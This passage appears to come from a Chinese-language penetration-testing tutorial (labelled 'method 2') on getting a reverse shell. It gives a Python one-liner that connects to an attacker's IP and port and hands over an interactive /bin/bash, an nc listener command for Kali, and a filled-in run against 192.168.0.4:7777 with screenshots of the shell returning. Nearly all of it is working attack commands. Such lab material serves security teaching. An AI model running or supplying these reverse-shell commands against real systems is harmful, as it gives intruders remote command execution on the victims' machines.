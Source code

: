 

### 方法2：



使用python反弹，反弹shell命令如下：

```
python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('ip',port));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);"
```











首先，使用nc在kali上监听端口：



```
nc -lvp 7777
```





[![H2IlCDa6j2.png](Untitled.assets/15319946182478.png)](https://image.3001.net/images/20180719/15319946182478.png)





在CentOS下使用python去反向连接，输入：



```
python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('192.168.0.4',7777));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);
```





[![e7kde87mKE.png](Untitled.assets/15319946428835.png)](https://image.3001.net/images/20180719/15319946428835.png)可以看到kali上成功反弹到了shell，可以执行一些命令：
